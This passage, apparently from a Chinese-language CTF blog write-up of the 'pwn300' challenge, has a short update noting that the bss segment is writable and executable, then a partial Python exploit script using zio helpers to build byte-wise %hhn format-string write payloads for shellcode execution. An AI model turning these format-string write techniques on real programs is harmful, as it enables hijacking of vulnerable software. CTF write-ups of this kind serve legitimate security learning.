 &nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;payload</pre>

<p style="text-indent: 2em;">
  最后还是想说，这题真的是好蛋疼，通过格式化字符串溢出漏洞要改这么多个值，想想就觉得残暴……
</p>

<p style="line-height: 16px; text-indent: 2em;">
  <img src _src=""/><a href="http://geekjayvic-wordpress.stor.sinaapp.com/uploads/2015/01/pwn300.zip">pwn300.zip</a>
</p>

* * *

<p style="line-height: 16px; text-indent: 2em;">
  重新整理了下这题，然后被人提醒bss段可写可执行，然后我就醉了，合着这题libc根本就用不到……
</p>

<p style="line-height: 16px; text-indent: 2em;">
  这里最后需要随便选个函数作为shellcode的触发，我选的exit，新代码如下：
</p>

<pre class="brush:python;toolbar:false">#!/usr/bin/env&nbsp;python
#encoding:utf-8

import&nbsp;zio
from&nbsp;time&nbsp;import&nbsp;sleep


def&nbsp;NOPS(n):
&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;&#39;x90&#39;&nbsp;*&nbsp;n

def&nbsp;LEFT_PAD(s,&nbsp;n):
&nbsp;&nbsp;&nbsp;&nbsp;assert&nbsp;len(s)&nbsp;&lt;=&nbsp;n
&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;NOPS(n&nbsp;-&nbsp;len(s))&nbsp;+&nbsp;s

def&nbsp;RIGHT_PAD(s,&nbsp;n):
&nbsp;&nbsp;&nbsp;&nbsp;assert&nbsp;len(s)&nbsp;&lt;=&nbsp;n
&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;s&nbsp;+&nbsp;NOPS(n&nbsp;-&nbsp;len(s))

def&nbsp;PREPARE_FORMAT(payload,&nbsp;addr,&nbsp;count=4):
&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;count&nbsp;==&nbsp;0:
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;payload

&nbsp;&nbsp;&nbsp;&nbsp;payload&nbsp;+=&nbsp;zio.l32(addr)
&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;PREPARE_FORMAT(payload,&nbsp;addr&nbsp;+&nbsp;1,&nbsp;count&nbsp;-&nbsp;1)

def&nbsp;FILL_FORMAT(payload,&nbsp;last,&nbsp;addr_pos,&nbsp;value,&nbsp;count=4):
&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;count&nbsp;==&nbsp;0:
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;payload,&nbsp;last

&nbsp;&nbsp;&nbsp;&nbsp;byte_value&nbsp;=&nbsp;value&nbsp;&&nbsp;0xff
&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;byte_value&nbsp;!=&nbsp;last:
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;byte_value&nbsp;&lt;&nbsp;last:
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;byte_value&nbsp;+=&nbsp;0x100
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;payload&nbsp;+=&nbsp;&#39;%%1$%dc&#39;&nbsp;%&nbsp;(byte_value&nbsp;-&nbsp;last)
&nbsp;&nbsp;&nbsp;&nbsp;payload&nbsp;+=&nbsp;&#39;%%%d$hhn&#39;&nbsp;%&nbsp;addr_pos
